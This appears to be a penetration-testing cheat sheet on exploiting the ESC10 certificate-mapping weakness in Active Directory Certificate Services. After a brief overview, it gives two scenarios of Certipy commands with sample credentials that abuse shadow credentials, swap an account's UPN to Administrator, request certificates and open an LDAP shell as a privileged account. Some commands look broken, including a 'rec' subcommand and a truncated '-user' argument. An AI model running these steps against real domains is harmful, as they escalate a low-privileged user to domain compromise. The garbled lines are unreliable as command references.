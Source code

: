 # General Overview: 

Exploiting ESC10 in AD CS involves taking advantage of weak certificate mapping configurations that allow low-privileged users to obtain certificates capable of high-privilege impersonation. In environments where ESC10 is present, attackers can request certificates that lack proper security extensions, such as the `szOID_NTDS_CA_SECURITY_EXT`. 

These certificates can then be used to authenticate as privileged accounts, like domain controllers, enabling the attacker to escalate privileges and potentially compromise the entire domain. 

This attack is particularly effective when the `StrongCertificateBindingEnforcement` setting is not strictly enforced, allowing certificates with weak or absent security extensions to be accepted by Kerberos or Schannel.

## Requirements: 

- StrongCertificateBindingEnforcement set to 0
- GenericWrite over any account A to compromise any account B
 

# Abusing ESC10  Certificate Templates

## Scenario 1: 

## Certipy

- certipy-ad shadow auto -username afsimmons@megacorpone.com -p Spawn123! -account xadmin
- certipy-ad account update -username afsimmons@megacorpone.com -p Spawn123! -user xadmin -upn Administrator
- certipy-ad rec -CA 'corp-DC-CA' -username xadmin@megacorpone.com -hashes "NT HASH"
- certipy-ad account update -username afsimmons@megacorpone.com -p Spawn123! -user 

## Scenario 2:

- certipy-ad shadow auto -username afsimmons@megacorpone.com -p Spawn123! -account xadmin
- certipy-ad account update -username afsimmons@megacorpone.com -p Spawn123! -user xadmin -upn Administrator
- certipy-ad req -username xadmin@megacorpone.com -hash "NT-HASH" -CA 'corp-DC-CA' -template 'Vuln Template'
- certipy-ad account update -username afsimmons@megacorpone.com -p Spawn123! -user xadmin -upn xadmin@megacorpone.com
- certipy-ad auth -pfx dc.pfx -dc-ip 172.21.1.5 -ldap-shell
